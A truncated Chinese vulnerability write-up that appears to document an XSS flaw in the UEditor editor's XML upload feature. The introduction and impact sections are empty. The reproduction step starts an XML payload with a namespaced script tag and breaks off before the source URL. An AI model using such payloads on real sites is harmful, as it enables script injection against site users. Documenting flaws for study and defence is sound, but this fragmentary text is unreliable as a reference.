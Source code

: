 ueditor 允许xml上传的xss漏洞
============================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

    <html>
    <head></head>
    <body>
    <something:script src="
